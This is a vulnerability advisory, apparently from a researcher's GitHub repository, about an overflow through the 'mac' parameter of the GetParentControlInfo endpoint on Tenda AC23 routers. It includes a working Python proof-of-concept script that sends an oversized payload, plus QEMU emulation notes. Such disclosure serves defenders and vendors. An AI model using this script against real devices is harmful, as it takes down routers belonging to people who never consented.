 # Stack-Based Buffer Overflow in Tenda Wi-Fi 5 Router AC23 (AC23V1.0re_V16.03.07.52)  
## Overview
A stack-based buffer overflow vulnerability exists in the Tenda Wi-Fi 5 Router AC23 device running firmware version AC23V1.0re_V16.03.07.52. Due to insufficient restrictions on certain parameters and the lack of boundary checks in the `GetParentControlInfo` function, a stack overflow may occur. Unauthenticated remote attackers can execute a Denial of Service (DoS) attack via parameters in the endpoint: `/goform/GetParentControlInfo` `sub_433CF4` `formDefineTendDa`

## Vulnerability Details
+ **Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd. ([https://www.tenda.com.cn](https://www.tenda.com.cn))  
+ **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)  
+ **Affected Product**: Tenda Wi-Fi 5 Router AC23 device  
+ **Affected Version**: AC23V1.0re_V16.03.07.52  
+ **Attack Vector**: Exploiting functions without boundary checks and with insufficient parameter restrictions, using carefully constructed payloads to cause a stack-based buffer overflow  
+ **Impact**:  
    - Denial of Service (DoS)
+ **Affected Component**: `/goform/GetParentControlInfo`, `sub_433CF4`, `formDefineTendDa`  
+ **CVE ID**: Pending (CVE application in progress)  
+ **Discovered by**: xxricardoxkk (xxricardoxkk@gmail.com)  
+ **Firmware**: [https://www.tenda.com.cn/material/show/3889](https://www.tenda.com.cn/material/show/3889)

## Discovery
This vulnerability was discovered by analyzing the firmware (US_AC23V1.0re_V16.03.07.52_cn_TDC01.bin). The following call chain exists in the `squashfs-root/bin/httpd` file:  
`main → sub_433BE4 → formDefineTendDa → GetParentControlInfo`  

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/main%E8%B0%83%E7%94%A8.png)

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/formDefineTendDa1.png)

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/formDefineTendDa2.png)

`s` is a buffer allocated via `malloc(0x254u)`, with a size of 0x254 bytes and initialized to all zeros. The target address is `s + 2`, meaning data copying starts from the 3rd byte of `s`, leaving 602 bytes of available space (604 - 2). `Var` is external input obtained via `websGetVar(a1, "mac", &unk_4DB6AC)` (a user-controllable "mac" parameter value). The `strcpy` function continuously copies characters from `Var` until a `\0` is encountered, without verifying if the target buffer can accommodate all data. As external input, `Var` may exceed 602 bytes in length.  

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/%E6%BA%A2%E5%87%BA%E7%82%B9.png)

Thus, a carefully crafted payload at the interface path `/goform/GetParentControlInfo` can trigger a buffer overflow.  

## Steps to Reproduce
Construct the following payload using Python:  

```python
import requests  

# 构造溢出载荷  
def create_payload():  
    buffer_size = 512000  
    payload = b"A" * buffer_size  
    v11_value = b"\xef\xbe\xad\xde"  
    payload += v11_value  
    return payload  

# 构造 HTTP 请求并发送  
def send_payload(url, payload):  
    params = {'mac': payload}  
    response = requests.get(url, params=params)  
    response = requests.get(url, params=params)  
    response = requests.get(url, params=params)  
    response = requests.get(url, params=params)  
    print("Response status code:", response.status_code)  
    print("Response body:", response.text)  

if __name__ == "__main__":  
    # 目标 URL  
    url = "http://192.168.190.239/goform/GetParentControlInfo"  
    # 创建恶意载荷  
    payload = create_payload()  
    # 发送恶意请求  
    send_payload(url, payload)  
```

Use QEMU to emulate the `httpd` extracted from `US_AC23V1.0re_V16.03.07.52_cn_TDC01.bin` (note: this file is for the MIPS little-endian architecture; IDA must be used to modify `httpd` to adapt to the emulation environment).  

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/patch.png)

As shown in the figure below, emulation is successful.  

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/payload.png)

Use this script to trigger the stack overflow.  

![](https://github.com/XXRicardo/iot-cve/blob/main/Tenda/AC23/image/%E8%A7%A6%E5%8F%91.png)

## Impact
Unauthenticated remote attackers can execute a Denial of Service (DoS) attack via parameters in this endpoint.  

